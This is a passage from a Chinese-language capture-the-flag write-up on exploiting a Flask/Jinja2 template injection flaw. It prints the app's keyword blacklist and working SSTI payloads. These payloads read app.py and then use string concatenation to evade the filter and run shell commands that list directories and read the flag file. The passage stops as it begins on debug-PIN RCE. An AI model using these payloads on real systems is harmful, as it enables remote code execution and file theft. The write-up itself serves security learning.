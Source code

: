         res =  render_template_string(tmp)

        flash( res )  

可以清楚的看到这里有一个waf保护，其中就有第一次我们测试注入的字符，而我们要做的就是绕过这个waf。  

那么waf具体是什么呢，这里我们需要查看一下，这里参考大佬的ssti注入语句并且需要进行修改（链接会放在后面，tql）  

	{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}

这样我们就可以查看到整个app.py的源码了：  

[![](https://pic.imgdb.cn/item/6094d89bd1a9ae528f7fb41f.png)](https://pic.imgdb.cn/item/6094d89bd1a9ae528f7fb41f.png)  

可以看到waf到底过滤了什么字符：  

	 def waf(str): black_list = 
	[flag;os；system；popen;import;eval;chr;request;subprocess;commands;socket;hex;base64;*;?;]    

可以看到flag，os等字符串被过滤了，这里我们如果想要读取flag，那么我们需要用字符串拼接的方法来读取（又get到一个绕过小姿势）  

	{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__ == 'catch_warnings' %}
	{% for b in c.__init__.__globals__.values() %}
	{% if b.__class__ == {}.__class__ %}
    {% if 'eva'+'l' in b.keys() %}
      {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("ls /").read()') }}
    {% endif %}
	{% endif %}
	{% endfor %}
	{% endif %}
	{% endfor %}

	查看文件目录，  

	{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__ == 'catch_warnings' %}
	{% for b in c.__init__.__globals__.values() %}
	{% if b.__class__ == {}.__class__ %}
    {% if 'eva'+'l' in b.keys() %}
      {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("cat /this_is_the_fla'+'g.txt").read()') }}
    {% endif %}
	{% endif %}
	{% endfor %}
	{% endif %}
	{% endfor %}  

	查看flag。  

但是上面说的方法其实并不是预期解，这道题的真正解法其实是利用pin码进行rec。  

## 利用pin码进行RCE  

关于pin码（即个人识别码）的具体介绍我就不多说了，我们可以简单理解为一个密码，这个密码是干什么用的呢？这就要联系到前面我们讲过的debug模式了。  
